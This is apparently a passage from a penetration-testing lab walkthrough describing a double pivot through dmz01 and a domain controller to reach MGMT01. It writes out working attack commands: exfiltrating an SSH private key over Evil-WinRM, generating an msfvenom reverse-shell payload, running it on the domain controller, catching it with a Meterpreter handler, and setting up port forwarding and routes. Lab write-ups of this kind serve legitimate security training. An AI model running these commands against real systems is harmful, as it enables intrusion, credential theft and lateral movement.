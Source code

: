         Evil-WinRM* PS C:\Department Shares\IT\Private\Networking> download "C:\Department Shares\IT\Private\Networking\ssmallsadm-id_rsa" /tmp/ssmallsadm-id_rsa 




                        //The Double Pivot - MGMT01

        
        Now there are a few ways to do this next part, we'll take the long route so we can ultimately SSH directly into the 172.16.9.25 host from our attack box, performing a bit of a mindbending double pivot in the process. Here is what we are trying to achieve, starting from our attack host and pivoting through the dmz01 and DC01 hosts to be able to SSH directly into the MGMT01 host two hops away directly from our attack host.

                Attack host --> dmz01 --> DC01 --> MGMT01


        We'll need to establish a reverse shell from the dmz01 box back to our attack host. We can do this the same we way did in the Internal Information Gathering section, creating an ELF payload, uploading it to the target and executing it to catch a shell. Start by creating the ELF payload and uploading it back to the dmz01 host via SCP if you removed it.

        Catch the Meterpreter shell using the multi/handler.

        Next, set up a local port forwarding rule to forward all traffic destined to port 1234 on dmz01 to port 8443 on our attack host.

        (Meterpreter 1)(/root) > portfwd add -R -l 8443 -p 1234 -L 10.10.14.15

        Next, create an executable payload that we'll upload to the Domain Controller host.

        $ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.8.120 -f exe -o dc_shell.exe LPORT=1234

        Upload the payload to the DC.

        *Evil-WinRM* PS C:\> upload "/home/tester/dc_shell.exe" 

        Start another multi/handler in the same msfconsole session to catch the shell from the DC.

        
        
        [msf](Jobs:0 Agents:1) exploit(multi/handler) >> set payload windows/x64/meterpreter/reverse_tcp
        payload => windows/x64/meterpreter/reverse_tcp
        [msf](Jobs:0 Agents:1) exploit(multi/handler) >> set lhost 0.0.0.0
        lhost => 0.0.0.0
        [msf](Jobs:0 Agents:1) exploit(multi/handler) >> set lport 8443
        lport => 8443
        [msf](Jobs:0 Agents:1) exploit(multi/handler) >> exploit

        Execute the payload on the DC and, if all goes to plan, we'll catch it in our handler.

        *Evil-WinRM* PS C:\Users\Administrator\Documents> .\dc_shell.exe

        For our next trick we'll set up a route to the 172.16.9.0/23 subnet.


        (Meterpreter 2)(C:\) > run autoroute -s 172.16.9.0/23  ( DC01 )

        Now we need to set up a socks proxy which is the final step before we can communicate directly with the 172.16.9.0/23 network from our attack host.
